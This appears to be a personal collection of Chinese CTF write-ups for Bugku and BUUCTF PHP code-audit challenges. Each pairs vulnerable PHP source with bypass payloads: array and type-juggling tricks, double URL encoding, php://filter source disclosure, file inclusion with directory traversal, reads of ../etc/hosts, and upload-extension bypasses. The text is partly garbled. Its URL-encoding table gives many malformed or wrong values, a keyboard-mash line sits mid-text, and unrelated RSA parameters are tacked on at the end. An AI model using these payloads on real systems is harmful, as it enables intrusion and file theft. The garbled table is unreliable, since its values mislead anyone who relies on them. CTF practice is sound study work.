






# BUGku...

## 代码审计题目

**1. extract 变量覆盖**
> extract变量覆
```php
<?php
$flag='xxx';
extract($_GET);
if(isset($shiyan))
{
$content=trim(file_get_contents($flag));
if($shiyan==$content)
{
echo'flag{xxx}';
}
else
{
echo'Oh.no';
}
}
?>
```
解析：
```
将通过GET传过来的数组转为一个名为数组名，值为数组值的变量(如果新的变量和已有变量重名，会将已有变量替换)
如果存在一个名叫shiyan的字符串
将flag变量的值赋给名为content变量
如果变量shiyan和变量content的值相同，
就输出flag的值
否则就输出Oh,no
因为extract()会把符号表中已存在的变量名的值替换掉，所以制造Payload ：?shiyan=&flag=
也就是利用新传入的值为空的flag替换原有的flag的值。构造空等于空，成功输出flag的值
```

**2. strcmp比较字符串**

```php
<?php
$flag = "flag{xxxxx}";
if (isset($_GET['a'])) {
if (strcmp($_GET['a'], $flag) == 0) /如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
/比较两个字符串（区分大小写）
die('Flag: '.$flag);
else
print 'No';
}
?>
```
解析：
就是get 用a和flag比较。
这里strcmp有一个bug就是如果比较的是数组的话，还是会返回一个0。
所以使用payload：

```
?a[]=1
```


```
URL编码表

backspace	8%	|A	41%|a	61%	|§	%A7	Õ	%D5|
tab	9%	B	42%	|b	62%|«	%AB	|Ö	%D6|
linefeed	%0A	|C	43%|c	63%	|¬	%AC	|Ø	%D8|
creturn	%0D	|D	44%	d	64%|	¯	%AD	|Ù	%D9|
space	20%	|E	45%	e	5%	|º	%B0	|Ú	%DA|
!	21%	|F	46%	|f	66%|±	%B1	|Û	%DB|
"	22%	|G	47%	|g	67%|ª	%B2	|Ü	%DC|
#	23%	|H	48%	|h	68%|,	%B4	|Ý	%DD|
$	24%	|I	49%	|i	69%|µ	%B5	|Þ	%DE|
%	25%	|J	%4A	|j	%6A|»	%BB	|ß	%DF|
&	26%	|K	%4B	|k	%6B|¼	%BC	|à	%E0|
'	27%	|L	%4C	|l	%6C|½	%BD	|á	%E1|
(	28%	|M	%4D	|m	%6D|¿	%BF	|â	%E2|
)	29%	|N	%4E	|n	%6E|À	%C0	|ã	%E3|
*	%2A	|O	%4F	|o	%6F|Á	%C1	|ä	%E4|
+	%2B	|P	50%	|p	70%|Â	%C2	|å	%E5|
,	%2C	|Q	51%	|q	71%|Ã	%C3	|æ	%E6|
-	%2D	|R	52%	|r	72%|Ä	%C4	|ç	%E7|
.	%2E	|S	53%	|s	73%|Å	%C5	|è	%E8|
/	%2F	|T	54%	|t	74%|Æ	%C6	|é	%E9|
0	30%	|U	55%	|u	75%|Ç	%C7	|ê	%EA|
1	31%	|V	56%	|v	76%|È	%C8	|ë	%EB|
2	32%	|W	57%	|w	77%|É	%C9	|ì	%EC|
3	33%	|X	58%	|x	78%|Ê	%CA	|í	%ED|
4	34%	|Y	59%	|y	79%|Ë	%CB	|î	%EE|
5	35%	|Z	%5A	|z	%7A|Ì	%CC	|ï	%EF|
6	36%	| 	 	| 	 	| 	 	|ð	%F0|
7	37%	|?	%3F	|{	%7B|Í	%CD	|ñ	%F1|5858
8	38%	|@	40%	||	%7C|Î	%CE	|ò	%F2|
9	39%	|[	%5B	|}	%7D|Ï	%CF	|ó	%F3|
:	%3A	|\	%5C	|~	%7E|Ð	%D0	|ô	%F4|
;	%3B	|]	%5D	|¢	%A2|Ñ	%D1	|õ	%F5|
< 	%3C	|^	%5E	|£	%A3|Ò	%D2	|ö	%F6|
=	%3D	|_	%5F	|¥	%A5|Ó	%D3	|÷	%F7|
> 	%3E	|`	60%	||	%A6|Ô	%D4	|ø	%F8|
 	 	| 	 	| 	 	| 	 	|ù	%F9|


```
%25%58%25%58XCTF

**3. URLDECOD二次编码**
```php
<?php
if(eregi("hackerDJ",$_GET[id])) {
    echo("

not allowed!

");
    exit();
}
$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
    echo "
Access granted!

";
    echo "
flag

";
}
?>

```
解析：
首先我们想到的是二次转码，浏览器转码一次，然后urldecode转码一次，那么我们就可以利用%25，转码之后就是%，那么我们只要找到字母的url编码就可以成功绕过了。
```py
?id=%2568%2561ckerDJ
```

**4. MD5函数**
```py
<?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print 'Your password can not be your username.';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print 'Invalid password';
}
?>
```
解析：
看到是md5函数，简单搜索一下关于md5()的缺陷，发现，原来md5没有办法处理数组格式的。
看到还有其他的方法就是使用，原理就是0e在比较的时候会将其视作为科学计数法，所以无论0e后面是什么，0的多少次方还是0。

统一适用于 sha1函数
```
?username[]=1&password[]=2
```


**5. 数组返回NULL绕过**

```py
<?php
$flag = "flag";

if (isset ($_GET['password'])) {
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
echo 'You password must be alphanumeric';
else if (strpos ($_GET['password'], '--') !== FALSE)
die('Flag: ' . $flag);
else
echo 'Invalid password';
}
?>
```

分析：
判断为当是数组并且当给数组值时为null


**弱整数类型绕过**
```php
<?php
$flag='xxx';
$temp = @$_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336) {
    echo $flag;
}
?>
```
解析：当比较值数据类型为数组时，大于 int `1336`，输入
```
?password[]
即可绕过
```


```php
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
var_dump($_GET['name']);
echo "
";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo '

Your password can not be your name!

';
else if (sha1($_GET['name']) === sha1($_GET['password']))
die('Flag: '.$flag);
else
echo '
Invalid password.

';
}
else
echo '
Login first!

';
?>
```

**6. md5加密相等绕过**

```php
<?php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
echo "flag{*}";
} else {
echo "false!!!";
}}
else{echo "please input a";}
?>
```

解析：
在PHP中 md5(240610708) == md5('QNKCDZO')
输入 `?a=240610708` 即可


**7. 十六进制与数字比较**

```php
<?php
error_reporting(0);
function noother_says_correct($temp)
{
$flag = 'flag{test}';
$one = ord('1'); /ord — 返回字符的 ASCII 码值
$nine = ord('9'); /ord — 返回字符的 ASCII 码值
$number = '3735929054';
/ Check all the input characters!
for ($i = 0; $i < strlen($number); $i++)
{
/ Disallow all the digits!
$digit = ord($temp{$i});
if ( ($digit >= $one) && ($digit <= $nine) )
{
/ Aha, digit not allowed!
return "flase";
}
}
if($number == $temp)
return $flag;
}
$temp = $_GET['password'];
echo noother_says_correct($temp);
?>
```
解析：
ord — 返回字符的 ASCII 码值可以理解为将数16进制一哈。
而此题要求判断的就是将数据 pasword 和要求的number比较，但是又不能出现1-9的数字，比较的方法就是将number的数字进行16进制转换后和输入的值挨个比较。相同即可跳出flag
```
?password=0xdeadc0de
```

**8. ereg正则%00截断**

```php

<?php
$flag = "xxx";
if (isset ($_GET['password']))
{
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
{
echo '

You password must be alphanumeric

';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
{
if (strpos ($_GET['password'], '-') !== FALSE) /strpos — 查找字符串首次出现的位置
{
die('Flag: ' . $flag);
}
else
{
echo('
- have not been found

');
}
}
else
{
echo '
Invalid password

';
}
}
?>
```
解析：
1. ereg() 正则限制了password格式，只能是一个或者多个数字、大小写字母
2. strpos() 查找某字符串在另一字符串中第一次出现的位置（区分大小写），本题中需要匹配到"*-*"才能输出flag

- **解题方法1**：利用数组绕过这两个函数
    `ereg() `只能处理字符串，而password是数组，所以返回的是null，三个等号的时候不会进行类型转换。所以`null!==false。`

    `strpos()` 的参数同样不能够是数组，所以返回的依旧是null，`null!==false`也正确。

    Payload：http:/123.206.87.240:9009/5.php?password[]=1

- **解题方法2**：%00截断绕过正则匹配
    同时判断输入值是不是长度<8且 >9999999 并且还要包含`*_*`
    此时使用科学计数法绕过。1e9%00*-*
    Payload：http:/123.206.87.240:9009/5.php?password=1e9%00*-*


**9. strpos数组绕过**

```php
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```

**10. 变量**

```php
<?php

error_reporting(0); /关闭错误报告

include"flag1.php"

highlight_file(_file_);

if(isset($_GET['args']))/ isset函数判断变量是否存在，是则返回true

{ $args= $_GET['args']; /通过get请求获取args

  if(!preg_match("/^\w+$/",$args));/利用正则匹配，检测args中的内容

  {die("args error!);}

 eval("var_dump($$args);")/var_dump会输出一个或者多个表达式的类型和值，eval函数会将字符串当成php代码来执行

}

?>s
flag In the variable !
```
- [参考](https:/blog.csdn.net/Sacrifice_li/article/details/102613360)

> 尝试了一下直接复制args=flag1.php，但是因为在preg_match（）函数中，匹配的是\w，也就是字母字符以及下划线，所以输出了 args error!

有两个$符号，这里可以做个小小的例子：可以简单理解，把这个东西想象成二级指针。

如果$a='hello',$hello=world,那么$$a=world。

所以在做替换的时候，如果args=flag，那么最后的结果就是eval(var_dump($flag);，也难怪系统输出了null。

在看一遍题目，没有了其他的提示，我们只能猜测是使用了全局变量，尝试一下 args=GLOBALS,我们的结果就出来了。


**11. BugkuCTF–flag在index里**

解题思路
```
注意到url地址  http:/120.24.86.145:8005/post/index.php?file=show.php

这是一个典型的文件包含漏洞，（file关键字是提示，其实也是CTF的套路）。

这里用到了php的封装协议：http:/php.net/manual/zh/wrappers.php.php

具体怎么用呢，先说结果：

http:/120.24.86.145:8005/post/index.php?file=php:/filter/read=convert.base64-encode/resource=index.php

然后将得到的字符串base64解码得到index的源码：

现在具体说说file=php:/filter/read=convert.base64-encode/resource=index.php的含义

首先这是一个file关键字的get参数传递，php:/是一种协议名称，php:/filter/是一种访问本地文件的协议，/read=convert.base64-encode/表示读取的方式是base64编码后，resource=index.php表示目标文件为index.php。

通过传递这个参数可以得到index.php的源码，下面说说为什么，看到源码中的include函数，这个表示从外部引入php文件并执行，如果执行不成功，就返回文件的源码。

而include的内容是由用户控制的，所以通过我们传递的file参数，是include（）函数引入了index.php的base64编码格式，因为是base64编码格式，所以执行不成功，返回源码，所以我们得到了源码的base64格式，解码即可。

如果不进行base64编码传入，就会直接执行，而flag的信息在注释中，是得不到的。
```

**12. 速度要快**



抓包后发现，目标的回包中包含 flag，base64解码后得到


本以为构造一下 `KEY{788564}` 后就会过，发现现实狠狠的给了我个大嘴巴子。此时我尝试多发了几次发现，这个数值是在不断变化的，你要凑齐龙珠拼接起来才行。

借用一下网上大佬的py脚本
```py
import requests
import base64
url="http:/120.24.86.145:8002/web6/" # ip
r=requests.session()
headers=r.get(url).headers#因为flag在消息头里
 
mid=base64.b64decode(headers['flag'])
mid=mid.decode()#为了下一步用split不报错，b64decode后操作的对象是byte类型的字符串，而split函数要用str类型的
 
flag = base64.b64decode(mid.split(':')[1])#获得flag:后的值
data={'margin':flag}
print (r.post(url,data).text)#post方法传上去
```


rfrgrggggggoaihegfdiofi48ty598whrefeoiahfeiafehbaienvdivrbgtubgtrsgbvaerubaufibry

**13. cookies欺骗**

```php
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array(
    '0' =>'keys.txt',
    '1' =>'index.php',
    );

if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
    $file_list[2]='keys.php';
}

if(in_array($file, $file_list)){
    $fa = file($file);
    echo $fa[$line];
}
?>
```

> php探测当前目录下的所有文件
```php
?s=print_r(scandir('./')) # 探测目录

?s=print_r(scandir('../'))

print_r(readfile(%27../../../Windows/win.ini%27)) # 读取文件

?s=print_r(readfile('../etc/hosts'))   # 读取文件
?s=print_r(fopen('../etc/hosts','r'))   # 读取文件
```


**14. 正则？**
```php
<?php
highlight_file('2.php');
$key='KEY{********************************}';
$IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i", trim($_GET["id"]), $match);
if( $IM ){ 
  die('key is: '.$key);
}
?>
```

解析：
```
3.正则表达式
.                                  匹配除 "\n" 之外的任何单个字符

*                                 匹配它前面的表达式0次或多次，等价于{0,}

{4,7}                           最少匹配 4 次且最多匹配 7 次，结合前面的 . 也就是匹配 4 到 7 个任意字符

\/                                匹配 / ，这里的 \ 是为了转义

[a-z]                           匹配所有小写字母

[:punct:]                     匹配任何标点符号

/i                                表示不分大小写

（这里我只添加了 这道题所需的正则表达式）
```


**15. 你从哪里来**


判断是否来自谷歌，一开始使用的方法是，修改user-agent 为google爬虫的，但是人家不 care。修改了` x-forwarded-for ` 但是人家不读这个参数，尝试修改
`Referer：http:/www.google.com
`


> php文件上传时后缀名绕过
```
在分别将后缀名修改为php2, php3, php4, php5, phps, pht, phtm, phtml（php的别名）
```

**16. PHP_encrypt_1(ISCCCTF)**

本题考 密码学，解压后原文为：
```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
} ?>
output: fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=
```
根据 encrypt 函数写对应的 decrypt

我们要提交的flag作为一个字符串，赋值给$data传入这个脚本之后，得到了上面给出的字符串：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

我们要做的就是逆向找出这个flag

密码学还没学、、md5的加密和解密还不会，只能照抄大佬的wp了、、、

```php
<?php
function decrypt($str) {
    $mkey = "729623334f0aa2784a1599fd374c120d";
    $klen = strlen($mkey);
    $tmp = $str;
    $tmp = base64_decode($tmp);  / 对 base64 后的字符串 decode
    $md_len = strlen($tmp); /获取字符串长度
    $x = 0;
    $char = "";
    for($i=0;$i < $md_len;$i++) {  /  取二次加密用 key;
        if ($x == $klen)  / 数据长度是否超过 key 长度检测
            $x = 0;
        $char .= $mkey[$x];  / 从 key 中取二次加密用 key
        $x+=1;
    }
    $md_data = array();
    for($i=0;$i<$md_len;$i++) { / 取偏移后密文数据
        array_push($md_data, ord($tmp[$i]));
    }
    $md_data_source = array();
    $data1 = "";
    $data2 = "";
    foreach ($md_data as $key => $value) { / 对偏移后的密文数据进行还原
        $i = $key;
        if($i >= strlen($mkey)) {$i = $i - strlen($mkey);}
        $dd = $value;
        $od = ord($mkey[$i]);
        array_push($md_data_source,$dd);
        $data1 .= chr(($dd+128)-$od);  / 第一种可能, 余数+128-key 为回归数
        $data2 .= chr($dd-$od);  / 第二种可能, 余数直接-key 为回归数
    }
    print "data1 => ".$data1."<br>\n";
    print "data2 => ".$data2."<br>\n";
}
$str = "fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=";
decrypt($str);
?>
```


**17. flag.php**


一开始找不到突破口，看了别人的wp把hint当作参数
http:/123.206.87.240:8002/flagphp/?hint

出现源码
```php
<?php
error_reporting(0);
include_once("flag.php");
$cookie = $_COOKIE['ISecer'];
if(isset($_GET['hint'])){
    show_source(__FILE__);
}
elseif (unserialize($cookie) === "$KEY")
{   
    echo "$flag";
}
else {
?>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Login</title>
<link rel="stylesheet" href="admin.css" type="text/css">
</head>
<body>
<br>
<div class="container" align="center">
  <form method="POST" action="#">
    <p><input name="user" type="text" placeholder="Username"></p>
    <p><input name="password" type="password" placeholder="Password"></p>
    <p><input value="Login" type="button"/></p>
  </form>
</div>
</body>
</html>

<?php
}
$KEY='ISecer:www.isecer.com';
?>
```
可见 `$key` 是在最后生成的，所以上面是没有定义 `$key` 的.所以此时的 `$key` 为null 即为

所以此时的 `unserialize($cookie)` 要全等于 `$key`


----
**BUUCTF**

**[HCTF 2018]WarmUp**

源码审计
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
            if (in_array($page, $whitelist)) {
                return true;
            }
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }
?>
```

先查看 hint.php
发现提示也就没啥


**接下来继续审计 source.php 代码**
```php
if (! empty($_REQUEST['file'])  //$_REQUEST['file']值非空
        && is_string($_REQUEST['file'])  //$_REQUEST['file']值为字符串
        && emmm::checkFile($_REQUEST['file'])  //能够通过checkFile函数校验
    ) {
        include $_REQUEST['file'];  //包含$_REQUEST['file']文件
        exit;
    } else {
        echo "<br>";
        //打印滑稽表情
    }
```
这段代码告诉们需要满足三个条件

1. 值为非空
2. 值为字符串
3. 能够通过checkFile()函数校验
否则打印滑稽

审计` checkFile()函数`校验
```php
highlight_file(__FILE__); //打印代码
class emmm  //定义emmm类
{
    public static function checkFile(&$page)//将传入的参数赋给$page
    {
        $whitelist = ["source"=>"source.php","hint"=>"hint.php"];//声明$whitelist（白名单）数组
        if (! isset($page) || !is_string($page)) {//若$page变量不存在或非字符串
            echo "you can't see it";//打印"you can't see it"
            return false;//返回false
        }
 
        if (in_array($page, $whitelist)) {//若$page变量存在于$whitelist数组中
            return true;//返回true
        }
 
        $_page = mb_substr(//该代码表示截取$page中'?'前部分，若无则截取整个$page
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
 
        $_page = urldecode($page);//url解码$page
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}
 
```

1. 第一个if语句对变量进行检验，要求$page为字符串，否则返回false
2. 第二个if语句判断$page是否存在于$whitelist数组中，存在则返回true
3. 第三个if语句判断截取后的$page是否存在于$whitelist数组中，截取$page中'?'前部分，存在则返回true
4. 第四个if语句判断url解码并截取后的$page是否存在于$whitelist中，存在则返回true


1. 若以上四个if语句均未返回值，则返回false
2. 有三个if语句可以返回true，第二个语句直接判断$page，不可用
3. 第三个语句截取'?'前部分，由于?被后部分被解析为get方式提交的参数，也不可利用
4. 第四个if语句中，先进行url解码再截取，因此我们可以将?经过两次url编码，在服务器端提取参数时解码一次，checkFile函数中解码一次，仍会解码为'?'，仍可通过第四个if语句校验。（'?'两次编码值为'%253f'）,构造url：

`http://xxxxxxxxxxxxxxxx/source.php?file=source.php%253f../../../../../ffffllllaaaagggg`


(p-2)*(q-2)= 0x9360ce5eb573dcdb85af4cef9468a29323aa9d26f8cef9a2b004f3d9922c12c45f74b85c00db81fa34de4714a6a95b676618a3ea8155df7095056c079531233f3e80cc372263ccaf4d42e5b7aa637586b673e30820a2d7eba201691371e138e4b3e45ed756cc6faac6e6f4686dfb56e7fcd361ac312d0f7110e76f8fee5cff75894e8a2f4e50ffd0ef9db7f0eb685a6b3038892a96b355ea1d154b77db6e97a3facd36dd8ee14b94cb98a21f4cea1412e7c72ea4cad530995ade3f5aae3444204dfc0d6ede436427
e= 0x2e43a6e5
n= 0x9360ce5eb573dcdb85af4cef9468a29323aa9d26f8cef9a2b004f3d9922c12c45f74b85c00db81fa34de4714a6a95b676618a3ea8155df7095056c079531233f3e80cc372263ccaf4d42e5b7aa637586b673e30820a2d7eba201691371e138e4b3e45eda7d04ff5b6a850dd6c5d5dcaab3588c8acc1b56794cbef1337664afd984d491d8134e3c1d661414278836b76e0de6a4e9a16f1c3f6abe86448dd065f317515d09888955eba578c5579381f59a5355584d1b2003c93660ada247f13db12aadc74a6801803b
c= 0x49c627fa815685ad85060c0891e2cd04b5cd722cd82cc809835cb43da79b21ce547f4139da69a67e201c5f4643ff91306b92ae7d1e3cc96a01e7074c7016058bf607038061fc3a99b6ac3ae1eaf6a3fddcc70303ed56281896183a4cd98c18e5f0378bf18d6a09c685c6fefdd0c0914b4b22e183ac5c88d5674b54141ef8291855bc394296b8031c0b0b6ec26889871137b91224321bb0d2a89ae1cf84eeba9fe459d0b8dff7fb1aadbae839956dfdfef5b0a8dbdfe8fd2613228e75f45195ee24cfa58b85a57e0f

